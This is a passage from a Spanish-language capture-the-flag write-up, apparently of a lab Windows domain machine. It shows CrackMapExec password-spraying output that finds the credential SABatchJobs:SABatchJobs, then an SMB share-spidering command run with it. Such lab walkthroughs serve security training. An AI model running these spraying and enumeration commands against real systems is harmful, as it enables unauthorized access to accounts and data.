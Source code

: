 ```bash
SMB         10.10.10.172    445    MONTEVERDE       [-] MEGABANK.LOCAL\AAD_987d7f2f57d2:svc-bexec STATUS_LOGON_FAILURE 
SMB         10.10.10.172    445    MONTEVERDE       [-] MEGABANK.LOCAL\AAD_987d7f2f57d2:svc-netapp STATUS_LOGON_FAILURE 
SMB         10.10.10.172    445    MONTEVERDE       [-] MEGABANK.LOCAL\AAD_987d7f2f57d2:dgalanos STATUS_LOGON_FAILURE 
SMB         10.10.10.172    445    MONTEVERDE       [-] MEGABANK.LOCAL\AAD_987d7f2f57d2:roleary STATUS_LOGON_FAILURE 
SMB         10.10.10.172    445    MONTEVERDE       [-] MEGABANK.LOCAL\AAD_987d7f2f57d2:smorgan STATUS_LOGON_FAILURE 
SMB         10.10.10.172    445    MONTEVERDE       [-] MEGABANK.LOCAL\mhope:Guest STATUS_LOGON_FAILURE 
SMB         10.10.10.172    445    MONTEVERDE       [-] MEGABANK.LOCAL\mhope:AAD_987d7f2f57d2 STATUS_LOGON_FAILURE 
SMB         10.10.10.172    445    MONTEVERDE       [-] MEGABANK.LOCAL\mhope:mhope STATUS_LOGON_FAILURE 
SMB         10.10.10.172    445    MONTEVERDE       [-] MEGABANK.LOCAL\mhope:SABatchJobs STATUS_LOGON_FAILURE 
SMB         10.10.10.172    445    MONTEVERDE       [-] MEGABANK.LOCAL\mhope:svc-ata STATUS_LOGON_FAILURE 
SMB         10.10.10.172    445    MONTEVERDE       [-] MEGABANK.LOCAL\mhope:svc-bexec STATUS_LOGON_FAILURE 
SMB         10.10.10.172    445    MONTEVERDE       [-] MEGABANK.LOCAL\mhope:svc-netapp STATUS_LOGON_FAILURE 
SMB         10.10.10.172    445    MONTEVERDE       [-] MEGABANK.LOCAL\mhope:dgalanos STATUS_LOGON_FAILURE 
SMB         10.10.10.172    445    MONTEVERDE       [-] MEGABANK.LOCAL\mhope:roleary STATUS_LOGON_FAILURE 
SMB         10.10.10.172    445    MONTEVERDE       [-] MEGABANK.LOCAL\mhope:smorgan STATUS_LOGON_FAILURE 
SMB         10.10.10.172    445    MONTEVERDE       [-] MEGABANK.LOCAL\SABatchJobs:Guest STATUS_LOGON_FAILURE 
SMB         10.10.10.172    445    MONTEVERDE       [-] MEGABANK.LOCAL\SABatchJobs:AAD_987d7f2f57d2 STATUS_LOGON_FAILURE 
SMB         10.10.10.172    445    MONTEVERDE       [-] MEGABANK.LOCAL\SABatchJobs:mhope STATUS_LOGON_FAILURE 
SMB         10.10.10.172    445    MONTEVERDE       [+] MEGABANK.LOCAL\SABatchJobs:SABatchJobs
```

Tenemos un usuario y contraseña:

- SABatchJobs:SABatchJobs

Intente un Kerberoasting pero tampoco funcionó. Tampoco podiamos conectarnos con WinRM. Lo siguiente que probe fue enumerar los recursos compartidos. Utilicé un modulo de  CrackMapExec para hacerlo de una forma mas comoda.

```bash
❯ crackmapexec smb 10.10.10.172 -u 'SABatchJobs' -p 'SABatchJobs' -M spider_plus
SMB         10.10.10.172    445    MONTEVERDE       [*] Windows 10.0 Build 17763 x64 (name:MONTEVERDE) (domain:MEGABANK.LOCAL) (signing:True) (SMBv1:False)
SMB         10.10.10.172    445    MONTEVERDE       [+] MEGABANK.LOCAL\SABatchJobs:SABatchJobs 
SPIDER_P... 10.10.10.172    445    MONTEVERDE       [*] Started spidering plus with option:
SPIDER_P... 10.10.10.172    445    MONTEVERDE       [*]        DIR: ['print$']
SPIDER_P... 10.10.10.172    445    MONTEVERDE       [*]        EXT: ['ico', 'lnk']
SPIDER_P... 10.10.10.172    445    MONTEVERDE       [*]       SIZE: 51200
SPIDER_P... 10.10.10.172    445    MONTEVERDE       [*]     OUTPUT: /tmp/cme_spider_plus
```
